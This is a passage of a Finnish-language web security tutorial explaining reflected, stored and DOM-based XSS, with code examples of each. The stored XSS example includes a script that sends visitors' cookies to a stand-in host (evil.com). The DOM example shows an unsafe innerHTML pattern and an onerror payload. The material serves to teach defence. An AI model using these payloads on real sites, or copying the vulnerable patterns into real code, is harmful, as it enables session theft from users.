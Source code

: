 Kun käyttäjä klikkaa tätä linkkiä, hänen selaimensa suorittaa `alert('XSS')`.

#### Vaarallisuus:
- Hakkeri lähettää uhreille linkkejä sähköpostissa tai sosiaalisessa mediassa
- Uhri klikkaa linkkiä → haitallinen koodi suoritetaan
- Hyökkääjä voi varastaa tokeneja tai istunnon

---

### 2. Stored XSS (Tallennettu XSS)

Haitallinen koodi **tallennetaan tietokantaan** (esim. kommentti, profiili) ja näytetään kaikille sivun kävijöille.

#### Esimerkki:

```javascript
// Käyttäjä syöttää kommentin:
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>

// Backend tallentaa kommentin tietokantaan ilman puhdistusta
db.query("INSERT INTO comments (text) VALUES ($1)", [userComment]);

// Kommentti näytetään sivulla:
<div className="comment">{comment.text}</div>
```

**Mitä tapahtuu:**
1. Hakkeri syöttää haitallisen skriptin kommenttina
2. Se tallennetaan tietokantaan
3. Jokainen käyttäjä, joka näkee kommentin, suorittaa skriptin
4. Käyttäjien cookiet lähetetään hyökkääjän palvelimelle

#### Vaarallisuus:
- **Vaikutus laaja** - kaikki sivun kävijät kärsivät
- **Pitkäaikainen** - hyökkäys pysyy aktiivisena kunnes se poistetaan
- **Yleinen** blogien, foorumien ja sosiaalisen median sivustoilla

---

### 3. DOM-based XSS

JavaScript käsittelee käyttäjän syötettä **vaarallisesti** ilman että data käy palvelimen kautta.

#### Esimerkki:

```javascript
// Haavoittuva frontend-koodi:
const name = window.location.hash.substring(1); // #John
document.getElementById('welcome').innerHTML = `Terve ${name}`;
```

**Hyökkäys:**
```
https://example.com/#<img src=x onerror="alert('XSS')">
```
